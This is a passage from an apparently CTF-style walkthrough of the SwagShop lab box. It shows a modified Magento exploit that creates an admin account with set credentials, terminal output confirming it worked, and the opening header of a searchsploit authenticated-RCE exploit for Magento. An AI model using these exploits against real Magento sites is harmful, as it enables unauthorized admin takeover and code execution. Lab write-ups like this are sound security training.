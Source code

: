```python
```

**Changes made:**

- I removed the comments and description from the script.
- `target = "http://swagshop.htb/index.php"`
- `query = q.replace("\n", "").format(username="0xkrakenn", password="0xkrakenn")`
- `print "Check {0}/admin with creds 0xkrakenn:0xkrakenn".format(target)`

Now let's run the script.


```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 Create-User.py  
WORKED
Check http://swagshop.htb/index.php/admin with creds 0xkrakenn:0xkrakenn
```

![alt text](../assets/img/Machines/SwagShop/Admin-Panel-logedIn.png)


- Now that our admin account is created, we can move on to the second exploit.

### Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution 

Starting by examining the script.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ searchsploit -x php/webapps/37811.py

#!/usr/bin/python
# Exploit Title: Magento CE < 1.9.0.1 Post Auth RCE
# Google Dork: "Powered by Magento"
# Date: 08/18/2015
# Exploit Author: @Ebrietas0 || http://ebrietas0.blogspot.com
# Vendor Homepage: http://magento.com/
# Software Link: https://www.magentocommerce.com/download
# Version: 1.9.0.1 and below
# Tested on: Ubuntu 15
# CVE : none

from hashlib import md5
import sys
import re
```